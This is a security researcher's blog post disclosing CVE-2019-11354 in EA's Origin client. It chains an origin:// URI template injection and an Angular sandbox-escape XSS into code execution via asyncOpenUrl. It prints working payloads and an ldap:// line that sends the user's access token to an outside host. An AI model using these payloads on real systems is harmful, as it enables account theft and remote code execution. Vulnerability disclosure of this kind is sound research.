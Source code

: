```yaml
---
layout: post
title: A Questionable Journey From XSS to RCE
snippet: Electronic Arts' Origin Client suffered from a vulnerability that allowed attackers to leverage remote code execution... all because of a simple content injection issue.
tags: [xss, rce]
---
```


# Introduction

As many of you reading this probably already know, in mid April, a good friend of mine (@Daley) and I located a Remote Code Execution vulnerability in EA's Origin client (CVE-2019-11354). Today I'm going to go in depth on how we discovered this vulnerability, along with a couple others we needed to chain along the way ;pp

[![]({{site.baseurl}}/assets/calc.gif "Origin RCE")]({{site.baseurl}}/assets/calc.gif)

# Debugging Origin

A lot of what was discovered was enabled by QtWebEngine debugging. By passing a specific flag to the origin process, we can hook Chrome devtools to the process and inspect the web view.

In order to set up remote debugging, you have to enable port-forwarding in the chrome devtools. To do this you need to start chrome and open the devtools. From there, open the Remote Devices view, enable port forwarding, and fill in the settings as needed.

Now we can start the origin process.

```
Origin.exe --remote-debugging-port=31337
```

If you navigate to localhost:31337 in chrome, you'll be met with the devtools, and from there, you can do all the poking around you need.




# Origin URI Handler

URI exploitation isn't new by any means. For a long time it has provided reliable ways of delivering payloads and executing commands on remote computers. The idea of being able to execute remote commands by simply having your target visit a web-page is obviously more than ideal to any threat actor.

In this scenario, the whole idea behind registering a custom URI handler is for ease-of-access. For example, Origin's handler is mainly there to be able to launch or purchase games from your web-browser. As soon as you click one of those links, your Origin client will launch with the parameters supplied by the crafted URI.

The Origin URI provides us with a few options we can use. To launch a game, we can use the following URI. This option gives us a few parameters. That's where we'll find our first bug.

```
origin://game/launch/?offerIds=OFFERID
```

# The First Bug (Template Injection)

The first bug relies on the fact that when Origin recieves an invalid game ID, it gives you the option to manually add it to your game library. In the dialog that pops up, it also echoes out the title of the game you'd like to add. If the game isn't recognized by Origin, how is it supposed to fetch a title, you may be asking. That's where the "title" parameter comes in handy.

We can quite literally specify any title we want by simply using the following link:

```
origin://game/launch/?offerIds=0&title=zer0pwn
```

This initially prompted me to try injecting HTML to see if maybe there was a possibility for XSS. You can tell that the HTML is being interpreted when you use the following link:

```
origin://game/launch/?offerIds=0&title=<h1>zer0pwn
```

I figured it would be as simple as injecting script tags to execute javascript, however this was not the case. After a little bit of digging, I discovered that the front-end is primarily developed in Angular. Angular does a lot of stuff with templating, so I figured maybe there was a possibility of template injection. Sure enough, a simple payload of 7\*7 got evaluated.

```
origin://game/launch/?offerIds=0&title={%raw%}{{7*7}}{%endraw%}
```

# The Second Bug (XSS)

Obviously with a client-side template injection vulnerability, we're limited to executing actions on the client. However, we can leverage this to evaluate our own Javascript and potentially compromise user sessions.

Angular is notorious for sandboxing, which means that we're going to have to do some funky scripting in order to execute what we want. Thankfully some researchers have already compiled a gist of Angular sandbox-escapes, which is what we used.

By using the following payload in the title param, we were able to pop an alert box (l33th4x!!!!11)

```
{%raw%}{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(l),a')}}{%endraw%}
```

# The Third Bug  (RCE)

Now, this part of the exploit is relatively trivial. QDesktopServices itself isn't necessarily vulnerable here, however the way that Origin has implemented it, on top of the other vulnerabilties, it ended up with a pretty nasty result.

According to the Qt documentation, "The QDesktopServices class provides methods for accessing common desktop services. Many desktop environments provide services that can be used by applications to perform common tasks, such as opening a web page, in a way that is both consistent and takes into account the user's application preferences."

Now here's the crazy part... There is actually an SDK (by Origin) in which you can communicate with the client's QDesktopServices via a javascript library. This only works if it's launched within the Origin client (obviously).

By accessing Origin.client.desktopServices in the DOM, we can find the following functions:

```javascript
: function asyncOpenUrl()​
: function asyncOpenUrlWithEADPSSO()​
: function deminiaturize()​
: function flashIcon()​
: function formatBytes()​
: function getVolumeDiskSpace()​
: function isMiniaturized()​
: function miniaturize()​
: function moveWindowToForeground()​
: function setNextWindowUUID()​
: function showWindow()​
```

Some of these functions are pretty cool. If you call ```flashIcon()```, you'll see the Origin icon flashing (big surprise, right). Most of the functions are pretty self explanatory actually, so I won't bother going into them.

What we had luck with was ```asyncOpenUrl()```. This function basically calls QDesktopServices ```openUrl()``` function, which in turn opens a web browser, or whatever application is registered with the provided URI. According to the documentation, you can also load local resources. Sounds promising, right ;)?

We can literally open a calculator with the following javascript:

```javascript
Origin.client.desktopServices.asyncOpenUrl("calc.exe")
```

# What else can we do?

As I mentioned earlier, Origin has a CSP in place which makes exfiltration somewhat difficult. If we use the ```ldap://``` URI handler in conjunction with ```asyncOpenUrl()```, we can send an LDAP request along with the data we want to exfiltrate. 

```
"ldap://safe.tld/o="+Origin.user.accessToken()+",c=UnderDog"
```

From the server, start tcpdump and set the necessary filters and you should see the data being transmitted in plaintext.

The ```Origin.user``` object contains a bunch of other information as well.

```javascript
: function accessToken()​
: function country()​
: function dob()​
: function email()​
: function emailStatus()​
: function globalEmailSignup()​
: function isAccessTokenExpired()​
: function originId()​
: function personaId()​
: function registrationDate()​
: function sessionGUID()​
: function showPersona()​
: function tfaSignup()​
: function underAge()​
: function userGUID()​
: function userPid()​
: userStatus()
```

# Wasn't this patched?

Electronic Art's rolled out a patch, however there are bypasses available as some on Twitter have decided to share. This highlights the issue once again and should be addressed by sanitizing all types of input, as the initial patch failed to do so.

# References
* [https://gist.github.com/jeremybuis/38c01acae19fc2ac6959](https://gist.github.com/jeremybuis/38c01acae19fc2ac6959)
* [https://blog.underdogsecurity.com/rce_in_origin_client/](https://blog.underdogsecurity.com/rce_in_origin_client/)
* [https://doc.qt.io/qt-5/qdesktopservices.html](https://doc.qt.io/qt-5/qdesktopservices.html)